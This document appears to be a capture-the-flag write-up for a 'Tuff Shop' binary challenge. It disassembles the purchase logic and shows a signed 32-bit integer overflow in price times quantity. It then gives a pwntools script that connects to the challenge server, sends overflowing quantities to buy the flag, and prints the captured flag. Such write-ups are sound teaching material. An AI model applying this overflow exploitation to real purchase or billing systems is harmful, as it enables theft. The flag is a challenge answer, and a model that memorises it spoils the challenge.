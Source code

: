 # Tuff Shop
### Description: Oh my god! You just haxxed this really TUFFFF shop! Give me your best six seven prank and find how to access the flag!

We are given a ```main``` binary file.

Doing file on it reveals it's an ELF 64-bit file:

![alt text](image.png)

Doing strings on it reveals some flavor text of what seems to be a storefront where you can buy a flag, and a hidden flag.txt:

```
❯ strings main

flag.txt
Error opening flag.txt
Send this to the customer: %s
Tuff Menu Console
Balance of customer: %d
Choose what the customer is buying:
1. Six Seven ($67)
2. Did Unc Snap ($41)
3. Flag ($100K)
0. nothing
Total cost for %d items: $%d
Not enough balance
Purchase successful! Remaining balance: $%d
Invalid choice
Exiting...
Enter quantity: 
Invalid quantity
:*3$"
```

Ran objdump -d main against the file, we can get some dissasemblies:
```
objdump -d main
```

If we look at the ```buy``` function's dissasembly, we can see something interesting:
```
1318:	8b 55 d8             	mov    -0x28(%rbp),%edx  ; quantity
131b:	0f af c2             	imul   %edx,%eax         ; price * quantity
131e:	89 45 e8             	mov    %eax,-0x18(%rbp)  ; store total cost
```

price * quantity. This uses 32-bit signed arithmetic (imul instruction), which can overflow.

32-bit signed integer maximum: 2,147,483,647. When 100,000 * quantity exceeds 2,147,483,647, it wraps around to negative values due to two's complement representation.

And then, we can see this comparison/validation logic around 0x1343-0x1346:

```
1343:	39 45 e8             	cmp    %eax,-0x18(%rbp)  ; (which compares cost vs balance)
1346:	7e 11                	jle    1359 <buy+0x83>   ; (which jump if cost <= balance)
```

And, at 0x1384-0x138f:
```
1384:	83 7d dc 03          	cmpl   $0x3,-0x24(%rbp)  ; (will check if item == 3 (flag))
1388:	75 0a                	jne    1394 <buy+0xbe>
138a:	b8 00 00 00 00       	mov    $0x0,%eax
138f:	e8 75 fe ff ff       	call   1209 <flag>        ; (will call flag() function)
```

When buying item 3 (the flag) successfully, it calls the flag() function which reads and displays the flag from flag.txt.

Based on these information, we can draft a solver (with the server address included) to just immediately get the flag:

```
#!/usr/bin/env python3
from pwn import *
import time

# Target connection
host = "intersec.hcs-team.com"
port = 10224

try:
    # Connect to the remote service
    p = remote(host, port)
    
    print("Connected! Waiting for menu...")
    
    # Wait for the menu
    p.recvuntil(b"Balance of customer:")
    balance_line = p.recvline()
    print(f"Balance line: {balance_line.decode()}")
    
    # Receive the full menu
    menu_data = p.recvuntil(b"0. nothing")
    print("Menu received:")
    print(menu_data.decode())
    
    # Choose option 3 (Flag - $100K)
    print("Choosing option 3 (Flag)")
    p.sendline(b"3")
    
    # Wait for quantity prompt
    p.recvuntil(b"Enter quantity:")
    print("Quantity prompt received")
    
    # Calculate integer overflow
    # Flag costs $100,000
    # We want: 100000 * quantity to overflow to a small positive number
    # With 32-bit signed int: max = 2,147,483,647
    # 100000 * 21475 = 2,147,500,000 (overflows to negative)
    # Let's try different values to get a small positive result
    
    # Try quantity that causes overflow to small positive number
    # 2^32 / 100000 = 42949.67... 
    # So around 42950 should cause wraparound
    quantity = 42950
    
    print(f"Sending quantity: {quantity}")
    p.sendline(str(quantity).encode())
    
    # Receive response
    print("Waiting for response...")
    try:
        response = p.recvall(timeout=5)
        print("Response:")
        print(response.decode('utf-8', errors='ignore'))
        
        # Look for flag pattern
        response_str = response.decode('utf-8', errors='ignore')
        if any(flag_indicator in response_str.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
            print("\n*** FLAG FOUND IN RESPONSE ***")
            
    except EOFError:
        print("Connection closed")
    except Exception as e:
        print(f"Error receiving: {e}")
        
    print("First attempt done. Trying alternative quantities...")
    
except Exception as e:
    print(f"First connection failed: {e}")

# Try different quantities if first attempt fails
quantities_to_try = [
    21475,   # Should overflow to negative
    42949,   # Near the overflow boundary  
    43000,   # Slightly over
    -1,      # Negative quantity
    0,       # Zero quantity
    2147483647, # Max int
]

for qty in quantities_to_try:
    try:
        print(f"\nTrying quantity: {qty}")
        p = remote(host, port)
        
        # Skip to menu choice
        p.recvuntil(b"0. nothing")
        p.sendline(b"3")  # Choose flag
        
        p.recvuntil(b"Enter quantity:")
        p.sendline(str(qty).encode())
        
        try:
            response = p.recvall(timeout=3)
            response_str = response.decode('utf-8', errors='ignore')
            print(f"Response for {qty}: {response_str[:200]}...")
            
            if any(flag_indicator in response_str.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
                print(f"\n*** FLAG FOUND with quantity {qty} ***")
                print(response_str)
                break
                
        except:
            print(f"No response for quantity {qty}")
            
        p.close()
        time.sleep(0.5)
        
    except Exception as e:
        print(f"Failed with quantity {qty}: {e}")
        continue

print("Exploit attempts completed!")
```

Running the solver gives us the flag:

![alt text](image-1.png)

Flag: ```HCS{u_r_s0_tufff_pl3453_h4ck_m333_4g41nn_<3_b0ee5fb5-6618-4360-9ab4-ab03dfe619ae}```
